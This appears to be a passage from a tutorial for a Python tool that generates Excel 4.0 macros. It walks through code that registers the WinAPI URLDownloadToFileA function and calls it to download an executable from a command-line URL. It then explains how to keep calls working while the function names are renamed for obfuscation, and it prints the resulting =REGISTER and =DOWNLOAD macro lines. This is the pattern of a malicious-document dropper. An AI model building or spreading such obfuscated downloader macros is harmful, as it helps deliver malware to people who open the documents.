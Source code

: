     download_call = self.macro.register_url_download_to_file_a("DOWNLOAD")

Next, we need to call the URLDownloadToFileA function which is represented in our macro as DOWNLOAD formula. To do this we need to create new formula.

    ## Represents =DOWNLOAD(0,"{URL_FROM_CMD_LINE}",exepath,0,0)
    self.macro.formula("DOWNLOAD", 0, self.args.url, exe_path, 0, 0)

The above notation is correct, but when obfuscating WinAPI function names, it will cause one problem. If the DOWNLOAD formula changes its name, this name will not be changed in the formula. For this reason, we need to call the get_call_name function on the Excel4RegisterFormula object to make these names related. If the DOWNLOAD name is changed, all calls created in this way will also be changed. Look at the following example:

    # Register URLDownloadToFileA at DOWNLOAD name
    download_call = macro.register_url_download_to_file_a("DOWNLOAD")
    # Call registered DOWNLOAD formula
    f = macro.formula("DOWNLOAD", 0, "", "", 0, 0)
    # It will produce following macro:
    #=REGISTER("urlmon","URLDownloadToFileA","JJCCJJ","DOWNLOAD","",1,9)
    #=DOWNLOAD(0,"","",0,0)
    # Change name from DOWNLOAD to GETFILE
    download_call.set_function_text("GETFILE")
    # It will produce following macro:
    #=REGISTER("urlmon","URLDownloadToFileA","JJCCJJ","GETFILE","",1,9);
    # Note that name of this formula wasn't changed
    #=DOWNLOAD(0,"","",0,0)
    # If we create formula in this way:
    download_call = macro.register_url_download_to_file_a("DOWNLOAD")
    f = macro.formula(download_call.get_call_name(), 0, "", "", 0, 0)
    # It will produce following macro:
    #=REGISTER("urlmon","URLDownloadToFileA","JJCCJJ","DOWNLOAD","",1,9)
    #=DOWNLOAD(0,"","",0,0)
    # Change name from DOWNLOAD to GETFILE
    download_call.set_function_text("GETFILE")
    # It will produce following macro:
    #=REGISTER("urlmon","URLDownloadToFileA","JJCCJJ","GETFILE","",1,9);
    # Note that name of this formula was changed
    #=GETFILE(0,"","",0,0)
